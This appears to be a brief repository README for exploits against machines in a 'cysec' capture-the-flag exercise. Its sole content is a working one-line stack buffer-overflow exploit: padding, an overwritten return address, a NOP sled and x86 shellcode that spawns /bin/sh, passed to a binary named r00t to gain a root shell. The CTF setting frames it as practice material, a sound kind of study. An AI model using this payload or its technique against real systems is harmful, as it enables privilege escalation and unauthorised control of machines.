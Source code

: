 # Cysec-explits
This repo will contains some exploits for the Boxes in the cysec ctf 
./r00t $(python -c 'print "A"*268 + "\x80\xfb\xff\xbf" + "\x90"*16 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"')

